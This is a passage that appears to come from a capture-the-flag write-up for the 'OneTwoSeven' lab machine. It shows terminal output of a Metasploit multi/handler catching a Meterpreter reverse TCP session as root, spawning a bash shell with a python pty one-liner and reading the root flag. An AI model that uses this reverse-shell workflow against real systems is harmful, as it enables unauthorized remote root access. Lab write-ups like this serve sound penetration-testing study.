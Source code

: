 ```
   LPORT  5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > jobs

Jobs
====

No active jobs.

msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 10.10.14.23:5555
```

```
msf5 exploit(multi/handler) > [!] Stage encoding is not supported for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3021284 bytes) to 10.10.10.133
[*] Meterpreter session 2 opened (10.10.14.23:5555 -> 10.10.10.133:48542) at 2019-04-21 22:45:41 -0400

msf5 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > shell
Process 13981 created.
Channel 1 created.
python -c 'import pty;pty.spawn("/bin/bash")'
root@onetwoseven:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@onetwoseven:~# cat /root/root.txt
2d380a...
```